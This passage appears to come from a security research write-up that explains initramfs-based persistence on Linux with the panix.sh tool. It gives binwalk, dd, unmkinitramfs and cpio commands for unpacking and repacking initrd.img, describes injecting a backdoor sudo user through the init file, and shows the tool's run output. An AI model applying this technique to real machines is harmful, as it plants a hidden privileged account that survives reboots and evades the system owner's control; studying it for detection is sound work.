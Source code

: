 ```
# Use binwalk to determine the trailer address.
ADDRESS=$(binwalk initrd.img | grep TRAILER | tail -1 | awk '{print $1}')
if [[ -z "$ADDRESS" ]]; then
	echo "Error: Could not determine trailer address using binwalk."
	exit 1
fi
echo "[*] Trailer address: $ADDRESS"
```

This section extracts and unpacks parts of the `initrd.img` file for modification. The `dd` command extracts the first `cpio` archive (microcode) up to the byte offset marked by `TRAILER!!!`, saving it as `initrd.img-begin` for later reassembly. Next, `unmkinitramfs` unpacks the remaining filesystem from `initrd.img` into a directory (`initrd_extracted`), enabling modifications.

```
dd if=initrd.img of=initrd.img-begin count=$ADDRESS bs=1 2>/dev/null || { echo "Error: dd failed (begin)"; exit 1; }

unmkinitramfs initrd.img initrd_extracted || { echo "Error: unmkinitramfs failed"; exit 1; }
```

Once the filesystem is extracted, it can be modified to achieve persistence. This process focuses on manipulating the `init` file, which is responsible for initializing the Linux system during boot. The code performs the following:

1. Mount the root filesystem as writable.  
2. Attempt to create a new user with sudo privileges in two steps:  
   1. Check whether the supplied user exists already, if yes, abort.  
   2. If the user does not exist, add the user to `/etc/shadow`, `/etc/passwd` and `/etc/group` manually.

This payload can be altered to whatever payload is desired. As the environment in which we are working is very limited, we need to make sure to only use tools that are available. 

After adding the correct payload, initramfs can be repacked. The script uses:

`find . | sort | cpio -R 0:0 -o -H newc | gzip > ../../initrd.img-end`

To repack the filesystem into `initrd.img-end`. It ensures all files are owned by `root:root` (`-R 0:0`) and uses the `newc` format compatible with initramfs.

The previously extracted microcode archive (`initrd.img-begin`) is concatenated with the newly created archive (`initrd.img-end`) using `cat` to produce a final `initrd.img-new`:

`cat initrd.img-begin initrd.img-end > initrd.img-new`

The new `initrd.img-new` replaces the original initramfs file, ensuring the system uses the modified version on the next boot.

Now that we understand the process, we can run the module and let the events unfold. Note: not all Linux distributions specify the end of a `cpio` archive with the `TRAILER!!!` string, and therefore this automated technique will not work for all systems. Let’s continue!

```
> sudo ./panix.sh --initramfs --binwalk --username panix --password panix --snapshot yes
[*] Will inject user 'panix' with hashed password '<hash>' into the initramfs.
[*] Preparing Binwalk-based initramfs persistence...
[*] Temporary directory: /tmp/initramfs.neg1v5
[+] Backup created: /boot/initrd.img-5.15.0-130-generic.bak
[*] Trailer address: 8057008
[+] Binwalk-based initramfs persistence applied. New initramfs installed.
[+] setup_initramfs module completed successfully.
[!] Ensure you have a recent snapshot of your system before proceeding.
```
